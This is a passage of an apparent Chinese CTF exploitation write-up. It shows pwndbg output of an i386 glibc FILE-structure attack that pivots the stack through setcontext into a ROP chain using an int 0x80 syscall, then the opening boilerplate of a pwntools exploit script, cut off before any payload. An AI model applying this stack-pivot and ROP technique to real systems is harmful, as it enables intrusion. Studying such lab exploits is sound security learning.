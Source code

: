 ```bash
0xeb5dbbc4	394	    if ((wint_t)_IO_WOVERFLOW (fp, WEOF) == WEOF)
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────
 EAX  0x62d142c4 ◂— 0
 EBX  0x62d141a0 ◂— 0xfbad24a0
 ECX  0
 EDX  0x62d14090 ◂— 0
 EDI  0
 ESI  0x62d141a0 ◂— 0xfbad24a0
 EBP  0
*ESP  0xffe6fde0 —▸ 0x62d141a0 ◂— 0xfbad24a0
*EIP  0xeb5dbbc4 (_IO_switch_to_wget_mode+36) ◂— call dword ptr [eax + 0xc]
───────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────
   0xeb5dbbb6 <_IO_switch_to_wget_mode+22>    jae    _IO_switch_to_wget_mode+53  <_IO_switch_to_wget_mode+53>
 
   0xeb5dbbb8 <_IO_switch_to_wget_mode+24>    sub    esp, 8                          ESP => 0xffe6fde8 (0xffe6fdf0 - 0x8)
   0xeb5dbbbb <_IO_switch_to_wget_mode+27>    mov    eax, dword ptr [eax + 0x88]     EAX, [0x62d142cc] => 0x62d142c4 ◂— 0
   0xeb5dbbc1 <_IO_switch_to_wget_mode+33>    push   -1
   0xeb5dbbc3 <_IO_switch_to_wget_mode+35>    push   ebx
 ► 0xeb5dbbc4 <_IO_switch_to_wget_mode+36>    call   dword ptr [eax + 0xc]       <setcontext+53>
        arg[0]: 0x62d141a0 ◂— 0xfbad24a0
        arg[1]: 0xffffffff
        arg[2]: 0x62d141a0 ◂— 0xfbad24a0
        arg[3]: 0xeb5d7c4e (gets+126) ◂— mov ecx, dword ptr [ebx]
 
   0xeb5dbbc7 <_IO_switch_to_wget_mode+39>    add    esp, 0x10
   0xeb5dbbca <_IO_switch_to_wget_mode+42>    cmp    eax, -1
   0xeb5dbbcd <_IO_switch_to_wget_mode+45>    je     _IO_switch_to_wget_mode+89  <_IO_switch_to_wget_mode+89>
 
   0xeb5dbbcf <_IO_switch_to_wget_mode+47>    mov    eax, dword ptr [ebx + 0x58]
   0xeb5dbbd2 <_IO_switch_to_wget_mode+50>    mov    edx, dword ptr [eax + 0x10]
```

最终我们将esp指向伪造的frame结构体后的位置，并在此构造ROP链，eip指向`ret`的gadget即可跳转ROP执行。

> [!error]
>
> 这里不知道为什么直接调用open函数会失败，所以最后找到一个int 0x80的系统调用进行ROP。

# Exp

```python
from pwn import *

aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "i386"
context.os = "linux"

libc = None
elf = None
p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
```
